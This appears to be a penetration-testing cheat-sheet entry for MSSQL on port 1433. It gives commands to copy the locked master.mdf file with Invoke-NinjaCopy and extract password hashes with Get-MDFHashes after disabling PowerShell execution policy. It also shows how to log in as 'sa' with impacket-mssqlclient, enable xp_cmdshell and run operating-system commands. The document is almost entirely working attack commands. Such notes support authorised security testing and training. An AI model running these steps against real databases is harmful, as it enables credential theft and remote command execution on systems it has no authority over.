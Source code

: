 # 1433 - MSSQL

## Dumping Hashes From master.mdf

* May need to use [Invoke-NinjaCopy.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1), as the file is locked during use.
* Extract hashes using [Invoke-MDFHashes](https://github.com/xpn/Powershell-PostExploitation/tree/master/Invoke-MDFHashes):

```
set-executionpolicy unrestricted
add-type -path .\OrcaMDF.Framework.dll
add-type -path .\OrcaMDF.RawCore.dll
import-module .\Get-MDFHashes.ps1
Get-MDFHashes -mdf master.mdf
```

## Privilege Escalation

```
$ impacket-mssqlclient sa:password@10.0.0.1
SQL> enable_xp_cmdshell
SQL> reconfigure
SQL> xp_cmdshell whoami
```

